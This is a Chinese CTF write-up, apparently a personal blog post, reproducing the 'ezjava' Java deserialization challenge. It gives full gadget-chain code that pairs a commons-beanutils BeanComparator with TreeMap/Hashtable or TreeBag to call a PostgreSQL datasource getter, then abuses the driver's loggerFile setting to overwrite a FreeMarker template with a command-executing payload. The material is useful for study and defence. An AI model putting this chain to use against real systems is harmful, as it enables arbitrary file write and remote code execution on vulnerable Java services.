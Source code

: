 ```yaml
---
layout: post
title: 安洵杯ezjava复现
categories: [blog ]
tags: [Java,]
description: ""
image:
  feature: windows.jpg
  credit: JYcxk
  creditlink: shzqi
---
```


##  考点

```java
CB的 compare调用任意getter方法
hashmap活着treebag拼接CB#compare方法
postgrasql任意写入文件
```



```java
postgresql 42.3.1
commons-beanutils 1.9.3
commons-collections-3.2.2.jar
freemarker-2.3.32.jar
```

 目标是调用调用这个getConnection方法即可， 到那时jackson、fastjson都没了，不能调用getter方法

![image-20231223151627688](..\img\final\image-20231223151627688.png)

![image-20231223152952142](..\img\final\image-20231223152952142.png)

![image-20231224180445929](..\img\final\image-20231224180445929.png)

当时是找到了这个类，调用

```java
web3提示：
1: 多看看org.postgresql.ds.commo.BaseDataSource这个类呢？
```

当时的想法就是调用这个类，但是这个`this.getUrl()`不可控

![image-20231224180607146](..\img\final\image-20231224180607146.png)

因为有CC和CB的依赖，CB的compare可以任意调用某个类的getter方法

本来以为就是这个思路，但是后面和师傅们交流的时候，被指出url不可控也就不能触发postgrasql远程执行xml那个了，当时也就到这了

```java
import org.apache.commons.beanutils.PropertyUtils;
import org.apache.commons.collections.comparators.TransformingComparator;
import org.apache.commons.collections.functors.InstantiateTransformer;
import org.postgresql.ds.common.BaseDataSource;

import javax.management.remote.rmi.RMIConnector;
import java.lang.reflect.InvocationTargetException;
import java.sql.DriverManager;

public class payloda {
    public static void main(String[] args) throws InvocationTargetException, IllegalAccessException, NoSuchMethodException {
        String url = new BaseDataSource() {
            @Override
            public String getDescription() {
                return null;
            }
        }.getUrl();
        System.out.println(url);
        BaseDataSource baseDataSource = new BaseDataSource() {
            @Override
            public String getDescription() {
                return null;
            }
        };
        // org.postgresql.ds.commo.BaseDataSource
        PropertyUtils aa=new PropertyUtils();
        aa.getProperty(baseDataSource,"connection");  //这里是可以调用到的


    }
}

```

红色框中的是`BeanComparator#compare `

![image-20231224181610062](..\img\final\image-20231224181610062.png)

看了B神的讲解分析，但是为啥我tabby没有找到呢？语法问题嘛？

```java
这里过滤了我们常见的链子，然后题目给的jdk环境是8u312，是高版本的jdk，那么jndi和rmi方面的就不要想了。所以思路就是给cb断链接上，compare方法还是很多的，熟悉一点的应该就该想起TreeMap/Bag套餐了。
TreeBag的readObject逻辑如下
```

发现自己当初想这道题的本质都错了，首先题目是不出网的，而我想的远程执行xml那个漏洞，需要题目能访问到那个文件

所以这就错了，这道题用的是另外一个漏洞 `logger任意文件写入`

## 先写一个专门的文章复现CVE（见PostGrasql分析）

postgresql 42.3.1 版本是低版本，任意命令执行和任意文件写入都是可以的

![image-20231226183951205](..\img\final\image-20231226183951205.png)

![image-20231226184015895](..\img\final\image-20231226184015895.png)

这里的geturl()就是对我们赋值的一个拼接操作，。。。当初想错了，所以这道题是因为不出网才用的这个logger覆盖，如果出网就不是了

![image-20231226210620483](..\img\final\image-20231226210620483.png)

```java
import org.apache.commons.beanutils.BeanComparator;
import org.postgresql.ds.PGSimpleDataSource;


import java.io.*;
import java.lang.reflect.Array;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.net.URLEncoder;
import java.util.*;

public class aaa {
    public static String string;
    public static void main(String[] args) throws Exception {
        String shellContent="<#assign ac=springMacroRequestContext.webApplicationContext>\n"+"<#assign fc=ac.getBean('freeMarkerConfiguration')>\n"+"<#assign dcr=fc.getDefaultConfiguration().getNewBuiltinClassResolver()>\n"+"<#assign VOID=fc.setNewBuiltinClassResolver(dcr)>/${\"freemarker.template.utility.Execute\"?new()(\"cat /flag\")}";
        //设置扩展参数
        PGSimpleDataSource pgSimpleDataSource = new PGSimpleDataSource();
        pgSimpleDataSource.setProperty("connectTimeout","100000000000000000");
        pgSimpleDataSource.setProperty("loggerFile", "/app/templates/index.ftl");
        pgSimpleDataSource.setProperty("loggerLevel", "DEBUG");
        pgSimpleDataSource.setServerNames(new String[]{shellContent});

        BeanComparator beanComparator = new BeanComparator(null, String.CASE_INSENSITIVE_ORDER);
        setFieldValue(beanComparator, "property", "connection");

        HashMap gadgetHashMap = new HashMap();
        gadgetHashMap.put(pgSimpleDataSource, null);

        TreeMap treeMap = makeTreeMap(beanComparator);

        HashMap hashMap1 = new HashMap();
        hashMap1.put("AaAaAa", treeMap);
        hashMap1.put("BBAaBB", gadgetHashMap);

        HashMap hashMap2 = new HashMap();
        hashMap2.put("AaAaAa", gadgetHashMap);
        hashMap2.put("BBAaBB", treeMap);

        Hashtable table = new Hashtable();
        setFieldValue(table, "count", 2);
        Class nodeC = Class.forName("java.util.Hashtable$Entry");
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);
        Object tbl = Array.newInstance(nodeC, 2);
        Array.set(tbl, 0, nodeCons.newInstance(0, hashMap1, 1, null));
        Array.set(tbl, 1, nodeCons.newInstance(0, hashMap2, 2, null));
        setFieldValue(table, "table", tbl);

        base64serial(table);
        deserTester();

    }

    public static TreeMap makeTreeMap(Comparator beanComparator) throws Exception {
        TreeMap treeMap = new TreeMap(beanComparator);

        setFieldValue(treeMap, "size", 1);
        setFieldValue(treeMap, "modCount", 1);

        Class EntryC = Class.forName("java.util.TreeMap$Entry");
        Constructor EntryCons = EntryC.getDeclaredConstructor(Object.class, Object.class, EntryC);
        EntryCons.setAccessible(true);

        setFieldValue(treeMap, "root", EntryCons.newInstance("nivia", 1, null));

        return treeMap;
    }
    public static void setFieldValue(Object obj,String name,Object o2) throws NoSuchFieldException, IllegalAccessException {
        Field declaredField = obj.getClass().getDeclaredField(name);
        declaredField.setAccessible(true);
        declaredField.set(obj,o2);
    }
    public static String base64serial(Object o) throws IOException, NoSuchFieldException, IOException {
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        //Field writeReplaceMethod = ObjectStreamClass.class.getDeclaredField("writeReplaceMethod");
        //writeReplaceMethod.setAccessible(true);
        oos.writeObject(o);
        oos.close();
        string = Base64.getEncoder().encodeToString(baos.toByteArray());
        System.out.println(string);
        return string;
    }
    public static void deserTester() throws Exception {
        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(Base64.getDecoder().decode(string));
        ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
        objectInputStream.readObject();
    }
}
```

![image-20231226210909892](..\img\final\image-20231226210909892.png)

![image-20231226210930773](..\img\final\image-20231226210930773.png)

发现覆盖成功直接访问主页，渲染一下即可，JYCXK是我设置的flag

![image-20231226211000299](..\img\final\image-20231226211000299.png)

#### 另一种调用CB#compare的方法

TreeMap/Bag套餐了。
![image-20231226211444810](..\img\final\image-20231226211444810.png)

![image-20231226211450587](..\img\final\image-20231226211450587.png)

![image-20231226211455975](..\img\final\image-20231226211455975.png)

![image-20231226211503528](..\img\final\image-20231226211503528.png)

```java
public class Demo {
    @Test
    public void test() throws Exception {
        PGConnectionPoolDataSource pgConnectionPoolDataSource = new PGConnectionPoolDataSource();
        String loggerLevel = "debug";
        String loggerFile = "/app/templates/index.ftl";
        String shellContent="<#assign ac=springMacroRequestContext.webApplicationContext>\n"+"<#assign fc=ac.getBean('freeMarkerConfiguration')>\n"+"<#assign dcr=fc.getDefaultConfiguration().getNewBuiltinClassResolver()>\n"+"<#assign VOID=fc.setNewBuiltinClassResolver(dcr)>/${\"freemarker.template.utility.Execute\"?new()(\"cat /flag\")}";
        System.out.println(shellContent);
        String jdbcUrl = "jdbc:postgresql://"+"123"+"/aaaa?ApplicationName="+"123123123"+"&loggerFile="+loggerFile+"&loggerLevel="+loggerLevel;
        pgConnectionPoolDataSource.setURL(jdbcUrl);
        pgConnectionPoolDataSource.setServerNames(new String[]{shellContent});
        BeanComparator comparator = new BeanComparator();
        SerializeUtils.setFieldValue(comparator, "property", "connection");
        TreeBag treeBag = new TreeBag(comparator);
        TreeMap<Object,Object> m = new TreeMap<>();
        SerializeUtils.setFieldValue(m, "size", 2);
        SerializeUtils.setFieldValue(m, "modCount", 2);
        Class<?> nodeC = Class.forName("java.util.TreeMap$Entry");
        Constructor nodeCons = nodeC.getDeclaredConstructor(Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);
        Object MutableInteger = SerializeUtils.createWithoutConstructor("org.apache.commons.collections.bag.AbstractMapBag$MutableInteger");
        Object node = nodeCons.newInstance(pgConnectionPoolDataSource,MutableInteger, null);
        Object right = nodeCons.newInstance(pgConnectionPoolDataSource, MutableInteger, node);
        SerializeUtils.setFieldValue(node, "right", right);
        SerializeUtils.setFieldValue(m, "root", node);
        SerializeUtils.setFieldValue(m, "comparator", comparator);
        SerializeUtils.setFieldValue(treeBag,"map",m);
        System.out.println(SerializeUtils.base64serial(treeBag));
        SerializeUtils.deserTester(treeBag);
    }
}
```

